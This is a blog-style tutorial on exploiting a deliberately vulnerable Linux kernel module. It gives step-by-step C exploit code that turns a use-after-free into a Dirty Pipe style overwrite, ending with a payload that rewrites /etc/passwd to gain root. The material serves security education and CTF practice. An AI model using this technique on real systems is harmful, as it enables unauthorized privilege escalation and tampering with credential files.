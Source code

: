 ```yaml
---
title: Linux Kernel Exploitation - Dirty Pipe
date: 2025-04-30
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain Dirty Pipe, a universal and data-only exploitation technique that allows us to arbitrarily overwrite read-only files. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/dirty-pipe) beforehand.

## Analysis
The vulnerable LKM provides four commands: `CMD_ALLOC`, `CMD_READ`, `CMD_WRITE`, and `CMD_FREE`. These commands are used to allocate, read from, write to, and free an object defined as follows:
```c
#define OBJ_SIZE    0x400

struct obj {
    char buf[OBJ_SIZE];
};
```
Note that `obj_alloc` internally uses `kzalloc` with the `GFP_KERNEL` flag. This means the object will be allocated from kmalloc-1k.
```c
static long obj_alloc(void) {
    if (obj != NULL) {
        return -1;
    }
    obj = kzalloc(sizeof(struct obj), GFP_KERNEL);
    if (obj == NULL) {
        return -1;
    }
    return 0;
}
```

## Bugs
In `obj_free`, `obj`, which is a reference to a freed memory region, is not cleared:
```c
static long obj_free(void) {
    kfree(obj);
    return 0;
}
```
This results in an obvious UAF. Since we already have read and write primitives, it is not difficult to control RIP and escalate privileges. However, in this post, we take a data-only approach using Dirty Pipe. Data-only attacks are increasingly important in the current era (due to CONFIG_CFI_CLANG) and are widely used in real-world kernel exploits.

## Dirty Pipe
The essence of Dirty Pipe is that when splicing a read-only file to a pipe, the `flags` field in the corresponding `struct pipe_buffer` can be set to `PIPE_BUF_FLAG_CAN_MERGE`, which enables arbitrary overwrites of the read-only file by writing to the pipe.
In the [original bug](https://dirtypipe.cm4all.com/) (now patched), this was possible because the `flags` field was left uninitialized.
However, in our case, we have a UAF primitive, and since CONFIG_MEMCG is disabled, the array of `struct pipe_buffer` is also allocated from kmalloc-1k in `alloc_pipe_info`:
```c
// https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L815-L816
struct pipe_inode_info *alloc_pipe_info(void)
{
    ...
    pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
                 GFP_KERNEL_ACCOUNT);
```

This allows us to recreate the same situation by overwriting the `flags` field. This method is called the [pipe primitive](https://github.com/veritas501/pipe-primitive).

## Exploitation
First, we allocate and free the victim object:
```c
puts("[*] Allocating a victim object from kmalloc-1k");
obj_alloc();

puts("[*] Freeing the victim object");
obj_free();
```
Next, we allocate an array of `struct pipe_buffer` and overlap it with the freed victim object:
```c
puts("[*] Allocating pipe buffers to reclaim the memory");
int pipefd[2];
assert(pipe(pipefd) != -1);
```
Next, splice /etc/passwd to the pipe:
```c
int filefd = open("/etc/passwd", O_RDONLY);
assert(filefd != -1);
long offset = 0;
assert(splice(filefd, &offset, pipefd[1], NULL, 1, 0) != -1);
```
Note that we need to splice at least one byte because of the check in `do_splice_read`:
```c
// https://elixir.bootlin.com/linux/v6.13/source/fs/splice.c#L967-L968
static ssize_t do_splice_read(struct file *in, loff_t *ppos,
                  struct pipe_inode_info *pipe, size_t len,
                  unsigned int flags)
{
    ...
    if (!len)
        return 0;
```
Next,we leak the contents of the `struct pipe_buffer` and overwrite its `flags` member with `PIPE_BUF_FLAG_CAN_MERGE`:
```c
puts("[*] Leaking the contents of pipe->bufs[0]");
struct pipe_buffer fake_pipe_buffer;
obj_read((char *)&fake_pipe_buffer, sizeof(fake_pipe_buffer));
printf(
    "[+] .page = %p, .offset = %#x, .len = %#x, .ops = %p, .flags = %#x, .private = %#lx\n", 
    fake_pipe_buffer.page,
    fake_pipe_buffer.offset,
    fake_pipe_buffer.len,
    fake_pipe_buffer.ops,
    fake_pipe_buffer.flags,
    fake_pipe_buffer.private
);

puts("[*] Overwriting .len with 0 and .flags with PIPE_BUF_FLAG_CAN_MERGE");
fake_pipe_buffer.len = 0;
fake_pipe_buffer.flags = PIPE_BUF_FLAG_CAN_MERGE;
obj_write((char *)&fake_pipe_buffer, sizeof(fake_pipe_buffer));
```
Note that we also overwrite `len` member to be 0 because the data will be written from `offset + len` in `pipe_write`:
```c
// https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L477-L485
static ssize_t
pipe_write(struct kiocb *iocb, struct iov_iter *from)
{
    ...
        int offset = buf->offset + buf->len;

        if ((buf->flags & PIPE_BUF_FLAG_CAN_MERGE) &&
            offset + chars <= PAGE_SIZE) {
            ret = pipe_buf_confirm(pipe, buf);
            if (ret)
                goto out;

            ret = copy_page_from_iter(buf->page, offset, chars, from);
```
Finally, we overwrite /etc/passwd (`j9ep0CjBGivAnD5z6l5rr0` is MD5-encoded password with salt `deadbeef`):
```c
char payload[] = "root:$1$deadbeef$j9ep0CjBGivAnD5z6l5rr0:0:0:root:/root:/bin/sh";
printf("[*] Overwriting /etc/passwd with %s\n", payload);
assert(write(pipefd[1], payload, sizeof(payload)) != -1);
```
By running this exploit, we can log in as a root user and see the flag:
![win](/assets/img/posts/2025-04-30-4/win.png)

## References
1. Max Kellermann. The Dirty Pipe Vulnerability. https://dirtypipe.cm4all.com/